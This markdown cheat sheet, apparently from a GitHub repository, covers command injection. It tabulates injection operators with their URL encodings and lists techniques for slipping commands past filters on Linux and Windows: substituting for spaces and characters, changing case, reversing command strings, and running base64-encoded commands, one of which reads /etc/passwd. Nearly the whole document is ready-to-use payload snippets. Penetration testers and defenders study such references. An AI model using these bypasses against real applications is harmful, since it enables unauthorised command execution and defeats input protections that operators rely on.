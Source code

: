 # Command Injection
- [Linux](#linux)
- [Windows](#windows)


## Injection Operators

| Injection Operator | Injection Character | URL-Encoded Character | Executed Command |
|--------------------|---------------------|-----------------------|------------------|
| Semicolon         | `;`                 | `%3b`                 | Both             |
| New Line         | `\n`                 | `%0a`                 | Both             |
| Background       | `&`                  | `%26`                 | Both (second output generally shown first) |
| Pipe            | `\|`                   | `%7c`                 | Both (only second output is shown) |
| AND             | `&&`                  | `%26%26`              | Both (only if first succeeds) |
| OR              | `\|\|`                  | `%7c%7c`              | Second (only if first fails) |
| Sub-Shell       | \` \`                | `%60%60`              | Both (Linux-only) |
| Sub-Shell       | `$()`                 | `%24%28%29`           | Both (Linux-only) |

---

## Linux  
### Filtered Character Bypass  

| Code | Description |
|------|------------|
| `printenv` | Can be used to view all environment variables |

#### Spaces  

| Code | Description |
|------|------------|
| `%09` | Using tabs instead of spaces |
| `${IFS}` | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. `$()`) |
| `{ls,-la}` | Commas will be replaced with spaces |

#### Other Characters  

| Code | Description |
|------|------------|
| `${PATH:0:1}` | Will be replaced with `/` |
| `${LS_COLORS:10:1}` | Will be replaced with `;` |
| `$(tr '!-}' '"-~'<<<[)` | Shift character by one (`[` → `\`) |


### Blacklisted Command Bypass  

#### Character Insertion  

| Code | Description |
|------|------------|
| `'` or `"` | Total must be even |
| `$@` or `\` | Linux only |

#### Case Manipulation  

| Code | Description |
|------|------------|
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` | Execute command regardless of cases |
| `$(a="WhOaMi";printf %s "${a,,}")` | Another variation of the technique |

#### Reversed Commands  

| Code | Description |
|------|------------|
| `echo 'whoami' | rev` | Reverse a string |
| `$(rev<<<'imaohw')` | Execute reversed command |

#### Encoded Commands  

| Code | Description |
|------|------------|
| `echo -n 'cat /etc/passwd | grep 33' | base64` | Encode a string with base64 |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string |

---

## Windows  
### Filtered Character Bypass  

| Code | Description |
|------|------------|
| `Get-ChildItem Env:` | Can be used to view all environment variables - (PowerShell) |

#### Spaces  

| Code | Description |
|------|------------|
| `%09` | Using tabs instead of spaces |
| `%PROGRAMFILES:~10,-5%` | Will be replaced with a space - (CMD) |
| `$env:PROGRAMFILES[10]` | Will be replaced with a space - (PowerShell) |

#### Other Characters  

| Code | Description |
|------|------------|
| `%HOMEPATH:~0,-17%` | Will be replaced with `\` - (CMD) |
| `$env:HOMEPATH[0]` | Will be replaced with `\` - (PowerShell) |

---

### Blacklisted Command Bypass  

#### Character Insertion  

| Code | Description |
|------|------------|
| `'` or `"` | Total must be even |
| `^` | Windows only (CMD) |

#### Case Manipulation  

| Code | Description |
|------|------------|
| `WhoAmi` | Simply send the character with odd cases |

#### Reversed Commands  

| Code | Description |
|------|------------|
| `"whoami"[-1..-20] -join ''` | Reverse a string |
| `iex "$('imaohw'[-1..-20] -join '')"` | Execute reversed command |

#### Encoded Commands  

| Code | Description |
|------|------------|
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))` | Encode a string with base64 |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA'))) "` | Execute b64 encoded string |




## Resources
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space)